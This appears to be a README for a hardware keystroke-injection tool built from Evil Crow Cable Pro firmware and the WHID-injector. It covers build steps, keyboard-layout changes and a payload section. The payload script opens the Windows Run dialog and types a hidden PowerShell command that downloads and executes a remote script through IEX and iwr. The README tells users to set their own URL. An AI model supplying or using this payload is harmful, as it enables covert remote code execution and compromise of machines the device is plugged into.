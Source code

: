 ## Build instructions

1. Start with the installation at [github.com/whid-injector/WHID/wiki#main-requirements](https://github.com/whid-injector/WHID/wiki#main-requirements)
2. replace the files inside [`EvilCrowCable-Pro/@main/firmware`](https://github.com/joelsernamoreno/EvilCrowCable-Pro/tree/main/firmware) with the ones in [this directory](/evil_crow_cable)
3. edit the url at [payload.h](../evil_crow_cable/payload.h#L50) based on your needs


## Change Keyboard layout

If the keyboard is available at [github.com/whid-injector/WHID/wiki/Keyboards-Layout](https://github.com/whid-injector/WHID/wiki/Keyboards-Layout), use those instructions.

If not available, you can modify the file `Keyboard/src/KeyboardLayout_en_US.cpp` ([`Keyboard` library](https://github.com/arduino-libraries/Keyboard), usually found somewhere at around `%localAppData%/Arduino15/libraries/Keyboard` on Windows) based on your needs. \
An example for that is the file [KeyboardLayout_en_US.cpp](/files/KeyboardLayout_en_US.cpp) for the Swiss-German keyboard layout

## Payloads

Use something like the following to execute a powershell script from an url (replace `URL` accordingly)
```shell
Press:131+114 
Print:powershell -w h "IEX(iwr('URL'))"
Press:176
Press:176
Press:176
Press:176
Press:176
```

> **Note**
> `131+114` here stands for the `WIN` + `r` key combo, and `176` for  `ENTER` ([syntax](https://github.com/whid-injector/WHID/wiki/WHID-Software-SCRIPTING-SYNTAX)) \
> See [github.com/whid-injector/WHID#how-to-start-newbies-edition](https://github.com/whid-injector/WHID?tab=readme-ov-file#how-to-start-newbies-edition) for general usage of the WHID-injector
